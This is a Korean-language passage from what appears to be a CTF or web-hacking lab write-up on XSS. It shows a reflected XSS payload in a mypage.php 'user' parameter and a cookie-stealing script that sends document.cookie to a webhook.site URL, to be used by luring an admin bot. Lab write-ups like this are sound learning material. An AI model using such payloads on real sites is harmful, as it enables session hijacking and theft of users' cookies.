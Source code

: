 **관리자 쿠키에 포함된 플래그를 탈취하는 데 성공**하였다.

---

### XSS 3

- `mypage.php`의 `user` 파라미터에 페이로드를 삽입한 결과, 아래와 같이 `alert` 창이 실행되는 것을 확인하였다.

![xss2 flag](./screenshots/xss3_script.png)

```js
123"/><script>alert(1)</script>
```

- 입력값이 필터링 없이 HTML 문서에 **직접 렌더링(rendered)**되고 있어, **Reflected XSS 취약점이 존재함**을 확인할 수 있다.

**이를 기반으로, 관리자 봇이 스크립트가 포함된 URL에 접근하도록 유도하였다.**

```html
123"/><script>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="%2Bdocument.cookie</script>
```

위 페이로드를 URL에 포함하여, **관리자 봇이 해당 URL에 접속하도록 유도할 예정**이다.
